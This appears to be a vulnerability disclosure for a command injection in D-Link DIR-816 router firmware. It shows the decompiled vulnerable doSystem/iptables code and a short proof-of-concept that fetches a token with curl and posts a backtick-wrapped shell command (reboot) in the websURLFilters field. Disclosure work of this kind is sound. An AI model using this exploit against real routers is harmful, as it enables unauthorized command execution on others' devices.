

## DIR-816 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

### Affected version

D-Link DIR-816  A2V1.1.0B05 was found to contain a command injection in `iptablesWebsFilterRun` of the component Web Interface, which allows remote attackers to execute arbitrary commands via shell.



### Vulnerability details

Vulnerability occurs in `iptablesWebsFilterRun`. Attackers can control `v0` by setting the `websURLFilters`. The program then pass its value to `v12`, and call system function `iptabels` without any check.

```
v0 = nvram_bufget(0, "websURLFilters");
NthValueSafe = getNthValueSafe(v7++, v0, 59, v12, 256);
doSystem("iptables ‐A web_filter ‐p tcp ‐m tcp ‐m webstr ‐‐url %s ‐j REJECT ‐‐reject‐with tcp‐reset", v12);
```

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by access `/goform/websHostFilterDelete` to call this function.

### EXP

First, attackers need to get the token ID.

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then, run exp.

```
import requests

tokenid = ''

url = 'http://192.168.0.1/goform/websHostFilterDelete'

data = {
    'tokenid': tokenid,
    'websURLFilters': `reboot`
}

r = requests.post(url, data)
```
